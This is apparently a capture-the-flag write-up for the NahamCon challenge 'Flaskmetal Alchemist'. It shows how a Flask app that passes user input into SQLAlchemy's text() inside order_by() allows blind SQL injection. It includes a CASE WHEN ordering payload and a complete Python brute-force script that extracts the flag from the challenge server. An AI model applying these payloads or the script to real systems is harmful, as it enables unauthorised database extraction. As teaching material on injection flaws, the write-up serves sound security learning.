 ```yaml
---
grand_parent: Categories
parent: Web
title: Flaskmetal Alchemist
nav_order: 4
---
```


# Flaskmetal Alchemist

```
Edward has decided to get into web development, and he built this awesome application that lets you search for any metal you want. Alphonse has some reservations though, so he wants you to check it out and make sure it's legit.

NOTE: this flag does not follow the usual MD5 hash style format, but instead is a short style with lower case flag{letters_with_underscores}
```

## Challenge

> TL;DR: Unsafe usage of SQLAlchemy library leading to SQLite Blind SQL injection

We are given the main bulk of the challenge source code in this challenge, so we can actually set up a local instance. In this case, it might not be necessary as the amount of code is really small.

The directory structure of the given files are:

```
.
├── Dockerfile
├── requirements.txt
└── src
    ├── app.py
    ├── database.py
    ├── models.py
    └── seed.py
```

In `database.py`, we see that the challenge uses SQLite as the database engine. We also see that the [SQLAlchemy](https://www.sqlalchemy.org/) library is being used:

```py
from sqlalchemy import create_engine
from sqlalchemy.orm import scoped_session, sessionmaker
from sqlalchemy.ext.declarative import declarative_base

engine = create_engine("sqlite:////tmp/test.db")
```

In `models.py`, we see that the challenge has 2 tables, 1 is called `metals` and the other 1 is called `flag` (boy do I wonder which table contains what we want 🤣):

```py
class Metal(Base):
    __tablename__ = "metals"
    atomic_number = Column(Integer, primary_key=True)
    symbol = Column(String(3), unique=True, nullable=False)
    name = Column(String(40), unique=True, nullable=False)

    def __init__(self, atomic_number=None, symbol=None, name=None):
        self.atomic_number = atomic_number
        self.symbol = symbol
        self.name = name


class Flag(Base):
    __tablename__ = "flag"
    flag = Column(String(40), primary_key=True)

    def __init__(self, flag=None):
        self.flag = flag
```

In `seed.py` the function populates the SQLite tables with the metals and flag data.

The main logic of the challenge is found in `app.py`:

```py
@app.route("/", methods=["GET", "POST"])
def index():
    if request.method == "POST":
        search = ""
        order = None
        if "search" in request.form:
            search = request.form["search"]
        if "order" in request.form:
            order = request.form["order"]
        if order is None:
            metals = Metal.query.filter(Metal.name.like("%{}%".format(search))) # [1]
        else:
            metals = Metal.query.filter(
                Metal.name.like("%{}%".format(search))
            ).order_by(text(order)) # [2]
        return render_template("home.html", metals=metals)
    else:
        metals = Metal.query.all()
        return render_template("home.html", metals=metals)
```

We see that in a `POST` request, the input parameters `search` and `order` are used as part of the SQLAlchemy query builder. This means that we could potentially influence the final query to be executed.

At [1], we see that our input parameter `search` is being used in the `filter()` [function](https://docs.sqlalchemy.org/en/14/orm/query.html#sqlalchemy.orm.Query.filter) of SQLAlchemy. Unfortunately, this function will sanitize our input and we would not be able to perform SQL injection here.

However, at [2], observe that inside the `order_by()` function, the `text()` [function](https://docs.sqlalchemy.org/en/14/core/sqlelement.html#sqlalchemy.sql.expression.text) is used to wrap around our `order` variable. This function accepts Raw SQL query strings, and this is where our injection point is at.

To prove our theory, we will attempt to inject quotes into both input fields and see the results. Injecting into the `search` parameter:

<img src="images/fma-1.png">

Injecting into the `order` parameter:

<img src="images/fma-2.png">

Since our injection point is at the `ORDER BY` part, we will not be able to `UNION SELECT` at this stage. This leaves us with a blind SQL injection challenge. In order to extract information, we can sort by different columns, or sort by `ASC` or `DESC` for a single column. Our injection string can therefore be something like:

```sql
(CASE WHEN (SELECT SUBSTR(flag,1,1) FROM flag)='f' THEN atomic_number ELSE symbol END) ASC
```

which will sort the results in `ASC` order by:
* `atomic_number` if the first character of the column `flag` in the table `flag` is the letter `f`;
* `symbol` otherwise

Injecting that query above into the challenge site, we see that the first row of the response table is:

<img src="images/fma-3.png">

We then changed the injected query to:

```sql
(CASE WHEN (SELECT SUBSTR(flag,1,1) FROM flag)='z' THEN atomic_number ELSE symbol END) ASC
```

which should show a different first row in the response table:

<img src="images/fma-4.png">

Since it indeed showed a different sorting order of the table, we can confirm that the SQL injection worked. We can now opt to write a script that can retrieve the flag for us:

```py
# pwn.py

from multiprocessing import Pool
import re
import requests
import string

pool = None

def guess_flag():
    for i in range(1, 41):
        guess_alpha(i)

def guess_alpha(n):
    global pool
    pool = Pool(10)
    charmap = string.printable
    raw_query = "(CASE WHEN (SELECT SUBSTR(flag,{},1) FROM flag)='[CHAR]' THEN atomic_number ELSE symbol END) ASC".format(n)
    for char in charmap:
        query = raw_query.replace("[CHAR]", char)
        pool.apply_async(brute, [query, char], callback=callback)
    pool.close()
    pool.join()

def callback(result):
    if result:
        pool.terminate()
        print(result, end="")

def brute(guess, char):
    url = "http://challenge.nahamcon.com:30453/"
    data = {
        "search": "",
        "order": "{}".format(guess)
    }
    res = requests.post(url, data=data)
    out = re.search("<td>(.+)</td>", res.text)
    if out.group(1) != "Actinium":
        return char
    return False

guess_flag()
```

Running the script, we were able to exfiltrate the flag:

<img src="images/fma-5.gif">
